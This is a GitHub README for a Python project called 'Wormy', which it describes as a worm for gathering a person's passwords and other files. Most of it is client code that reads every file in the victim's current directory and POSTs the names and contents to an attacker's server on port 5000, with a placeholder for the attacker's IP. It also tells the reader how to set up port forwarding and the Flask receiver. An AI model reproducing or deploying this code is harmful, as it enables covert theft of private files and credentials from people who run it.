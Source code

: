 # Wormy Project
Wormy is a worm designed to gather info about a person, it could be passwords they keep in a file or simply a bashrc file you wanted to use, its not much of a spearfishing attack and it has a pretty low chance of actually getting something useful.

## Usage
This file goes to the client, enter your ip where it says to do so
```python
import socket
import subprocess
import os
class main:
    def get_data():
        # Getting all files in current directory
        path = os.getcwd()
        files=[]
        with os.scandir(path) as listOfEntries:
            for entry in listOfEntries:
                # store all entries that are files
                if entry.is_file():
                    files.append(entry.name)
        file_contents = []
        for file in files:
            with open(file,"r") as f:
                file_contents.append(str(f.read())+"_from_"+str(file))
        return files, file_contents
    def upload(files, file_contents, ip):
        import requests
        header = {
            'filecontents': file_contents,
            'files': files
        }
        requests.post(ip+":5000/input",data=header)
    def stringlist(list1):
        returnme = ""
        for i in list1:
            returnme = returnme+i+"\n"
        return returnme
    host="http://localhost" # ENTER YOUR IP OR DNS HERE
files, filecontents = main.get_data()
files, filecontents = main.stringlist(files),main.stringlist(filecontents)
main.upload(files,filecontents,main.host)
```
on your side make sure to port foward the `5000` port or the port you changed it to (it doesnt matter what port it connects to since the firewall will not block 5000 unless a rule is specified and then run the client.py, make sure flask is updated as there are a few exploits that could work on older versions of flask.
IMPORTANT: I am not to be held liable for any actions you use this worm for, this was just a project I did for fun and not a hacking tool.

## License
[MIT](https://choosealicense.com/licenses/mit/)
